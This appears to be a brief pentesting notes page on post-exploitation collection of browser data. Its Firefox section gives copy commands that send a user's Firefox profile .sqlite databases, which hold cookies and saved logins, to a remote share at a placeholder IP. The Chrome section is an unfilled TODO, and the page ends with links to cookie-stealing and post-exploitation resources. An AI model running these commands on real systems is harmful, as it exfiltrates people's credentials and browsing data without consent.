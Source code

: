 # 01 - Manual

## 1.1 - Firefox

### 1.1.1 - Profiles

`C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles*.sqlite \\<IP>\<share_name>\`

`C:\> copy /c /s %appdata%\Mozilla\Firefox\Profiles\*.sqlite \\<IP>\<share_name>\`

## 1.2 - Google Chrome

TODO: Fill this information

---
## References

- [Retrieving Data From Thunderbird and Firefox](https://thevivi.net/blog/pentesting/2020-09-06-retrieving-data-from-thunderbird-and-firefox/)

- [FareedFauzi Resources Windows Post Exploitation](https://fareedfauzi.gitbook.io/oscp-notes/windows-post-exploitation/resources-windows-post-exploitation)

- [Mango PDF Zone Stealing Chrome Cookies Without a Password](https://mango.pdf.zone/stealing-chrome-cookies-without-a-password)